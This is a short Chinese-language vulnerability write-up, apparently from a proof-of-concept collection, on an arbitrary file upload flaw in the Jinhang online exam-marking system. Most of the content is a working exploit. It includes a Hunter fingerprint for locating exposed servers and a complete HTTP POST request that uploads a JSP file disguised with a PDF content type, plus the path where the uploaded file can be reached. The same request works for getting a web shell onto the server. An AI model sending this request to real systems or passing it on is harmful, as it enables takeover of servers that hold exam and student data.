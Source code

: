 # 金航网上阅卷系统fileUpload任意文件上传漏洞

衡水金航计算机科技有限公司是一家长期致力于图像标记识别采集技术及信息管理系统的软件企业。金航网上阅卷系统：可以广泛地应用于高考、中考、教育局组织的学校联考、各类学校自组织考试、各种行业考试、职称考试等。衡水金航计算机科技有限公司金航网上阅卷系统 fileUpload 任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## hunter

```javascript
web.body="js/insteadSelect/jquery.insteadSelect.css"
```

## poc

```javascript
POST /fileUpload HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 351
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="upload"; filename="poc.jsp"
Content-Type: application/pdf

<%out.println("1234");%>
--00content0boundary00
Content-Disposition: form-data; name="uploadContentType"

pdf
--00content0boundary00
Content-Disposition: form-data; name="uploadFileName"

1.jsp
--00content0boundary00--
```

![image-20241107235030738](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411072350903.png)

文件路径：`/upload/poc.jsp`
